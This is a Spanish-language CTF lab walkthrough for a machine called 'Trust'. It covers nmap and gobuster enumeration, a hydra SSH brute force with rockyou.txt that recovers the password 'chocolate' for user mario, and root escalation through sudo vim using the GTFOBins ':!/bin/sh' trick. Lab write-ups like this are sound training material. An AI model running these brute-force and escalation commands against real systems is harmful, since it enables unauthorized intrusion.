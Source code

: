 # Trust
## 1. Reconocimiento de Puertos con Nmap

Utilizamos `nmap` para escanear los puertos de la máquina objetivo. Un escaneo inicial revela los puertos 22 (SSH) y 80 (HTTP) abiertos.

```bash
sudo nmap <IP_DEL_OBJETIVO>
```

Para obtener más detalles sobre los servicios, realizamos un escaneo de versiones:

```bash
sudo nmap -sV -p 22,80 <IP_DEL_OBJETIVO>
```

**Servicios Identificados:**

| PUERTO | SERVICIO | VERSIÓN |
|---|---|---|
| 22/tcp | ssh | OpenSSH |
| 80/tcp | http | Apache httpd |

La presencia de un servidor web Apache en el puerto 80 sugiere que la interacción inicial se realizará a través de una aplicación web.

## 2. Enumeración Web y Descubrimiento de Directorios

Al acceder a la dirección IP del objetivo en un navegador web, encontramos una página simple que no ofrece mucha interacción. Por lo que vamos a buscar directorios ocultos en el servidor web.

### 2.1. Búsqueda de Directorios con Gobuster

Empleamos `gobuster` para realizar un escaneo de directorios. 
```bash
sudo gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

En este caso, se encontró el directorio `/server-status`, pero con un código de estado 403 (Prohibido), lo que indica que no tenemos permisos para acceder a él.

/server-status (Status: 403) [Size: 275]
Progress: 207643 / 207644 (100.00%)

### 2.2. Búsqueda de Archivos con Extensiones Específicas

Dado que el servidor es Apache, es común que las aplicaciones web utilicen archivos `.html` o `.php`. Realizamos un nuevo escaneo con `gobuster` especificando estas extensiones:

```bash
sudo gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php
```
**Salida**

/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 622929 / 622932 (100.00%)

Este escaneo revela varios archivos, incluyendo `index.html` (la página que ya habíamos visto) y `secret.php`.

Al acceder a `secret.php`, encontramos un mensaje que dice: "Hola Mario, Esta web no se puede hackear.". Este mensaje es una pista importante, ya que nos proporciona un nombre de usuario: **Mario**.

## 3. Acceso Inicial: Fuerza Bruta SSH

Con el nombre de usuario "Mario" y el puerto SSH (22) abierto, el siguiente paso lógico es intentar un ataque de fuerza bruta para obtener la contraseña de SSH.

### 3.1. Ataque de Fuerza Bruta con Hydra

Utilizamos `hydra` con el nombre de usuario `mario` y un diccionario de contraseñas (`rockyou.txt`) para intentar iniciar sesión por SSH.

```bash
sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP_DEL_OBJETIVO> ssh
```

Si el ataque es exitoso, `hydra` nos revelará la contraseña. En este ejercicio, la contraseña encontrada es **chocolate**.

login: mario   password: chocolate

## 4. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `mario`, el objetivo es escalar privilegios a `root`.

Comprobamos que no nos permite hacer`sudo su` con la contraseña `chocolate`

### 4.1. Verificación de Permisos Sudo

Primero, verificamos qué comandos puede ejecutar el usuario `mario` con `sudo` sin necesidad de contraseña. Esto se hace con el comando

```bash
sudo -l
# Salida:  /usr/bin/vim
```

La salida de este comando nos indica que el usuario `mario` puede ejecutar `/usr/bin/vim` sin contraseña.

### 4.2. Explotación de Vim (GTFOBins)

`vim` es un editor de texto, pero si se puede ejecutar con `sudo` sin contraseña, puede ser explotado para obtener un shell de `root`. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo), y nos proporciona el siguiente comando para obtener un shell de `root` a través de `vim`:

```bash
sudo /usr/bin/vim -c ':!/bin/sh'
```

*   `-c ':!/bin/sh'`: Abre `vim` y ejecuta el comando interno `:!/bin/sh`. Este comando le dice a `vim` que ejecute `/bin/sh` (un shell) . Dado que `vim` se está ejecutando con privilegios de `root`, el shell  también tendrá privilegios de `root`.

Después de ejecutar este comando, si la explotación es exitosa, el comando `whoami` confirmará que ahora somos `root`.